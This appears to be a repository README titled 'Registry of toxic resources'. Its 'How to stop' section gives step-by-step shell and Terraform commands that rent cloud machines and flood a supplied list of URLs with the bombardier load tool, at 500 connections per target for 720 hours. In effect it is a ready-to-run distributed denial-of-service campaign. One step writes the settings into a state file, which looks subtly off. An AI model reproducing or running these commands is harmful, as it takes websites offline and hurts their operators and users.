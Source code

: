 # Registry of toxic resources 


## How to stop
Feel free to use any tool you wish and synchronize it with resources registry.

If you don't know how to scale and run in in cloud feel free to use [Massive Stress Framework](https://github.com/ynovel/massivestress).  
1. Clone repository.
   ```shell
    git clone https://github.com/ynovel/massivestress.git
    ```
2. [Istall Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli#install-terraform).
3. Retrieve access token from your cloud provider.
4. Choose your bundle and run commands (below).

### Available bundles:
* Cloud "**Digital Ocean**", Runner "**alpine/bombardier**". Run in command line:
```shell
cd massivestress # path where cloned ynovel/massivestress repository is placed
export DIGITALOCEAN_ACCESS_TOKEN="<CHANGE TO YOUR PERSONAL ACCESS TOKEN>"
cd keys
/bin/sh gen_ssh_keys.sh
cd ../terraform/digital_ocean
terraform init
echo -e 'runner_resources_url = "<CHANGE TO URL WITH RESOURCES FILE, WHICH IS TEXT WITH ONE TESTED URL PER LINE>"
runner_bombardier_connections_per_resource = 500
instance_count = 3
instance_region = "fra1"
instance_type = "s-1vcpu-1gb"
runner_bombardier_duration = "720h"
' > terraform.tfstate
terraform apply # type "yes"
```
